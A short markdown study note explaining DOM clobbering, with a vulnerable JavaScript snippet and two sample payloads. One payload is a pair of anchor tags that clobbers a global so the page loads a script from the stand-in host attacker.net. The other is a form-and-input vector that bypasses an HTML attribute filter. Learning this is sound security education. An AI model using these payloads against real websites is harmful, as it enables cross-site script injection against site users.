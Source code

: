 # DOM Clobbering
- this is advanced technique in which `HTML` is injected into a web page to manipulate `DOM` and change the behavior of `JavaScript` on the website.
- most common form of DOM clobbering use `anchor element` to overwrite a global variable, which is then used by the application to inject script URL
- `example: `
 DOM clobbering is particularly useful in cases where `XSS` is not possible, but you can control some HTML on a page where the attributes `id` or `name` are whitelisted by the HTML filter. The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.
 
 ## Exploitation of DOM Clobbering vulnerability
 - vulnerable code that is commonly used by JS developer
 ```js
 <script>  
 window.onload = function(){  
    let someObject = window.someObject || {};  
    let script = document.createElement('script');  
    script.src = someObject.url;  
    document.body.appendChild(script);  
 };  
</script>
```
exploit: inject HTML to clobber `someObject` reference with `anchor element`
```js
<a id=someObject><a id=someObject name=url href=//attacker.net/exploit.js>
```
As the two anchors use the same ID, the DOM groups them together in a DOM collection. The DOM clobbering vector then overwrites the `someObject` reference with this DOM collection. A `name` attribute is used on the last anchor element in order to clobber the `url` property of the `someObject` object, which points to an external script.

- Another common technique is to use a `form` element along with an element such as `input` to clobber DOM properties.
- `example:`
clobbering the `attributes` property enables you to bypass client-side filters that use it in their logic. Although the filter will enumerate the `attributes` property, it will not actually remove any attributes because the property has been clobbered with a DOM node. As a result, you will be able to inject malicious attributes that would normally be filtered out
`<form onclick=alert(1)><input id=attributes>Click me`
In this case, the client-side filter would traverse the DOM and encounter a whitelisted `form` element. Normally, the filter would loop through the `attributes` property of the `form` element and remove any blacklisted attributes. However, because the `attributes` property has been clobbered with the `input` element, the filter loops through the `input` element instead. As the `input` element has an undefined length, the conditions for the `for` loop of the filter (for example `i<element.attributes.length`) are not met, and the filter simply moves on to the next element instead. This results in the `onclick` event being ignored altogether by the filter, which subsequently allows the `alert()` function to be called in the browser.

## [Prevention DOM-CLobbering attack](https://portswigger.net/web-security/dom-based/dom-clobbering)
